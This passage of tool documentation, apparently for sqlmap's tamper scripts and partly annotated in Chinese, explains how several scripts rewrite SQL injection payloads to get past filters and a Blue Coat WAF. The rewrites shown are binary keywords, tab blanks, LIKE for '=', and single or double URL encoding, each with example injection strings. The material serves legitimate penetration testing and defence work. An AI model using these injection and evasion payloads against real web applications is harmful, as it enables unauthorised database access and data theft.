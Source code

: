 > Injects keyword binary where possible

Requirement:
* MySQL

```py
>>> tamper('1 UNION ALL SELECT NULL, NULL, NULL')
'1 UNION ALL SELECT binary NULL, binary NULL, binary NULL'
>>> tamper('1 AND 2>1')
'1 AND binary 2>binary 1'
>>> tamper('CASE WHEN (1=1) THEN 1 ELSE 0x28 END')
'CASE WHEN (binary 1=binary 1) THEN binary 1 ELSE binary 0x28 END'
```

### bluecoat.py

> Replaces space character after SQL statement with a valid random blank character. Afterwards replace character '=' with operator LIKE

将 sql 语句后的空格字符替换为 `%09`，`LIKE` 替换字符 `=`

Requirement:
* Blue Coat SGOS with WAF activated as documented in https://kb.bluecoat.com/index?page=content&id=FAQ2147

Tested against:
* MySQL 5.1, SGOS

```py
>>> tamper('SELECT id FROM users WHERE id = 1')
'SELECT%09id FROM%09users WHERE%09id LIKE 1'
```

### chardoubleencode.py

> Double URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %2553%2545%254C%2545%2543%2554)

二次URL编码

```py
>>> tamper('SELECT FIELD FROM%20TABLE')
'%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545'
```

### charencode.py

> URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %53%45%4C%45%43%54)

URL编码

Tested against:
* Microsoft SQL Server 2005
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0
